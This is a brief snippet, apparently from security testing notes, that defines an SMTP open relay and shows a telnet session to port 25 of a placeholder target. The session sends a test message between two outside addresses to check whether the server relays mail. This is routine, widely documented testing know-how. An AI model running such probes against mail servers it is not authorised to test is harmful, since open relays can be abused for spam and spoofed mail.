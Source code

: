 ### Open Relay Exploit

> SMTP Open Relay occurs when the SMTP server is configured to accept and transfer messages on the network that were neither for nor from local users.

``` bash
telnet target.com 25
MAIL FROM:<test@example.com>
RCPT TO:<test2@anotherexample.com>
DATA
Subject: Test open relay
Test message
.
QUIT
```


